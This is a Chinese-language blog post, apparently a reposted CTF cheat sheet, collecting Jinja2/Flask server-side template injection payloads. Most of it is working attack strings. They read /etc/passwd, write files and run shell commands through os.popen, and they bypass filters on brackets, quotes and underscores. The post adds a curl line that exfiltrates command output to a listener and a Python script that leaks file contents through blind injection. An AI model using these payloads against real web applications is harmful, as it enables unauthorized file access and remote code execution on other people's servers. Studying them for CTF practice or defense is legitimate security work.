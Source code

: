 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/csdn_Pade/article/details/88566032)

转自 [https://p0sec.net/index.php/archives/120/](https://p0sec.net/index.php/archives/120/)  
好长时间没更新过了，ssti 也不是新东西，打国赛半决赛，简直是 demo 全家桶，ssti 必然是遇到不少。很多东西只是保存在收藏栏里，用的时候再查很浪费时间，记录一下，遇到时也能顺手一点。

0x00 获取基本类
----------

首先通过 str、dict、tuple 或 list 获取 python 的基本类 (当然也可以利用一些其他在 jinja2 中存在的对象，比如 request)：

```
''.__class__.__mro__[2]
    {}.__class__.__bases__[0]
    ().__class__.__bases__[0]
    [].__class__.__bases__[0]
    request.__class__.__mro__[8]
```

可以借助__getitem__绕过中括号限制：

```
''.__class__.__mro__.__getitem__(2)
    {}.__class__.__bases__.__getitem__(0)
    ().__class__.__bases__.__getitem__(0)
    request.__class__.__mro__.__getitem__(8)
```

下面基本类就用 object 代替，测试时将 object 换成上面任意一个

0x01 文件操作
---------

object.__subclasses__()[40] 为 file 类，所以可以对文件进行操作

读文件：

```
object.__subclasses__()[40]('/etc/passwd').read()
```

写文件：

```
object.__subclasses__()[40]('/tmp').write('test')
```

0x02 执行命令
---------

object.__subclasses__()[59].**init**.func_globals.linecache 下直接有 os 类，可以直接执行命令：

```
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
```

object.__subclasses__()[59].__init__.**globals**.__builtins__下有 eval，__import__等的全局函数，可以利用此来执行命令：

```
object.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
object.__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

0x03 ByPass
-----------

分享一些 payload

1.  过滤 [

读文件：

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
```

执行命令：

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
```

2.  过滤引号

先获取 chr 函数，赋值给 chr，后面拼接字符串就好了：

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
```

借助 request 对象 (推荐)：

```
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
```

执行命令：

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```

3.  过滤双下划线__

{

可以利用 {%%} 标记

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```

相当于盲命令执行，利用 curl 将执行结果带出来

如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来

```
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}
```

平时的 SQL 注入盲注脚本改一下就 ok

```
# -*- coding: utf-8 -*-
import requests


url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

参考：

```
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/
https://0day.work/jinja2-template-injection-filter-bypasses/
```